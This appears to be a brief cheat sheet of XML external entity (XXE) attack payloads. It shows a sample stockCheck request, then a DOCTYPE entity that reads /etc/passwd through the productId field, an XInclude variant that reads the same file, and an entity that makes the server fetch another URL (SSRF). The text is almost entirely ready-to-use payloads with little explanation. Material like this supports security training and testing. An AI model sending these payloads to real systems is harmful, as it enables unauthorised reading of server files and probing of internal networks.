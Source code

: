 ### XML external entity example
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### injected - parameter &xxe; and read passwd file (could also be placed in another element)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### another variant (if you can not control the complete XML)
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### another example - perform SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://example.com.com/some/path"> ]>
```

